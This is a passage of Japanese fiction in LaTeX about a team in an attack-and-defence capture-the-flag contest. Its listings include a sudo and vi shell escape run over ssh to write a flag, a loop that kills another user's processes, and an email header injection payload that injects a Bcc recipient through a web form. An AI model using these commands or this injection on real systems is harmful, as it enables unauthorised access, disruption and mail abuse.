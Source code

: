 うっ、ダメか……。

「おーぴー、ダメだ……」

「分かった、こっちでなんとかする」

おーぴーの期待に添えなかったのは残念だが、
これは恐らく敵もログインしていないのだろう。
昨日、Skypeの会議でおーぴーがフラッグワードを、
確かあれは、

\begin{lstlisting}
$ echo 'sudo -u stage5 /usr/vi -f^M:!echo FLAG >> FLAG' | ssh -t -t stage4@10.0.2.3
\end{lstlisting}

という感じ。
これが出来るのであれば、

\begin{lstlisting}[style=sh]
$ while (true)
do
	echo 'sudo -u stage5 pkill -u stage4' | ssh -t stage4@10.0.2.3;
	sleep 1
done
\end{lstlisting}

という感じで、ログインせずともプロセスは殺せるはず。
これならばPHPのプログラムで仮にプロセスが一発殺されても問題はない。
まあいいや。
とにかく。
俺は。

昨日編集部でメールサーバーは用意しておいた。
後はメールが届くかどうかを調べるだけ。
\url{http://10.0.2.5/message.html}へアクセスして、
に次のメールヘッダ汚染を仕掛ける。

\begin{lstlisting}
hoge%0D%0ABcc: m@192.168.7.4%0D%0A
\end{lstlisting}

これでメールが届けばいいが……。
とりあえず、メールボックスを見ても……来てない……。
これは遅延か失敗か。
どうする……？
もはや策がない……。

長いサイレン音がして、一瞬戦慄した。
まさか？
どうやら落ちたのは。
。
 HTTPD\footnote{Windows向けのHTTPサーバー。\url{http://www.st.rim.or.jp/~nakata/}}%
が動作しているものだったはず。
これはちょっと良くないな。
4ポイント程度なので、
このままでは5分で16ポイント程度ずつ這い寄られることになる。

などと考えているとまたサイレン音が鳴り、
全てのチームが。
なんだと……。
どうなっている？
どうしてキーワードを一つかそこらしかコミットしてないチームまで、
キーワードのコミットを飛ばしてFLAGへ書き込んでるんだ。
いや、これはどう考えても。
あらゆるチームのフラッグワードは公開されているから、
奴等我々の収入を減らすためにあえて他のチームのフラッグワードを。
こうすることで我々が5分ごとに2ポイントになってしまった。
つまり、18ポイントずつ接近されていることになる。

